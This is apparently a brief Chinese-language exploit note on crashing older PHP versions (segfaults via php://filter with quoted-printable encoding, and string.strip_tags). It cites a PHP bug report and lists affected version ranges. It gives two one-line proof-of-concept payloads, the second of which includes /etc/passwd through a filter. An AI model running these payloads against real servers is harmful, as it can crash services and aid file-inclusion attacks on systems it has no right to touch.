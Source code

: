 # Segmentation fault

## 超大字符
### **参考**

- https://hackmd.io/s/Hk-2nUb3Q

- https://bugs.php.net/bug.php?id=77359  

- https://www.php.net/ChangeLog-7.php
- https://www.php.net/ChangeLog-5.php

### 版本

- php5<5.6.39
- php7.0<7.0.33
- php7.1<7.1.25
- php7.2<7.2.13
- php7.3不可利用

### 利用

```php
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
```

因为安装编译特定的PHP版本太过麻烦（以后可能会做，再补充相关环境测试的截图），所以就没有截图证明了。可以查看参考文章。

## trip_tags

### 参考文章

- https://www.jianshu.com/p/dfd049924258

### 版本

同上，但是在版本PHP7.0.33成功复现

### 利用

```php
<?php
include("php://filter/string.strip_tags/resource=/etc/passwd");
?>

```

